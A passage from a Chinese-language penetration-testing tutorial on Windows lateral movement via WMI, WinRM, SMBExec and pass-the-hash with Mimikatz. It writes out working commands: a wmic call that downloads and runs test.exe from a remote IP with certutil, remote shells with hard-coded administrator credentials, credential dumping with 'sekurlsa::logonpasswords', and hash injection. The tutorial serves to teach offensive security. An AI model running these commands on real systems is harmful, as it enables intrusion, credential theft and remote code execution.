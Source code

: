 ```
wmic /node:186.64.10.13 /user:Administrator /password:Admin@123 process call create "cmd /c  certutil.exe -urlcache -split -f http://186.64.10.13/test.exe c:/windows/temp/test.exe & c:/windows/temp/test.exe"
```

​    创建交互式shell:

​    使用py脚本调用WMI来模拟psexec的功能，基本上psexec能用的地方，这个脚本也能够使用。原理就是把数据先存到一个临时文件中，在每次读取完执行结果后就自动删除。可以用来回显执行命令的结果和获取半交互式的shell

```
python wmiexec.py -share admin$ administrator:password@186.64.10.13
```

​    ![image.png](https://image.3001.net/images/20200304/15833019496220.png!small)

​    **3.2.4WinRM远程管理服务**

​    WinRM指的是Windows远程管理服务，通过远程连接winRM模块可以操作windows命令行，默认监听端口5985（HTTP）&5986 (HTTPS)，在2012以后默认开启。

​    执行命令：

```
winrs -r:http://186.64.10.13:5985 -u:Administrator -p:Admin@123.. "whoami /all"    winrs -r:http://186.64.10.13:5985 -u:Administrator -p:Admin@123.. "cmd.exe"
```

​    ![image.png](https://image.3001.net/images/20200304/15833019684740.png!small)

​    **3.2.5SmbExec(445端口)**

​    smbexec是一款基于psexec的域渗透测试工具，并配套samba工具。

```
Smbexec.py administrator:password@186.64.10.13
```

​    ![image.png](https://image.3001.net/images/20200304/15833019793725.png!small)

###     3.3Pass The Hash

​    PTH(pass the hash)攻击是指攻击者可以直接通过LM Hash(已弃用)或NTLM  Hash访问远程主机或服务，而不提供明文密码。在Windows系统中，使用NTLM进行身份认证，当获取用户hash后，可以使用Hash传递的方式获取访问权限。

​    **3.3.1Mimikatz**

​    ![image.png](https://image.3001.net/images/20200304/15833019962490.png!small)

​    首先登录目标机器，以管理员身份运行mimikatz，并输入以下命令获取administrator账户的ntlm hash：

```
Mimikatz.exe “privilege::debug” “sekurlsa::logonpasswords”
```

​    ![image.png](https://image.3001.net/images/20200304/15833020121.png!small)

​    在攻击机器上利用mimikatz将获取的hash注入到内存中，成功后用dir命令可以成功列出目录文件：

```
sekurlsa::pth /domain:. /user:Administrator /ntlm: 70be8675cd511daa9be4b8f49e829327
```
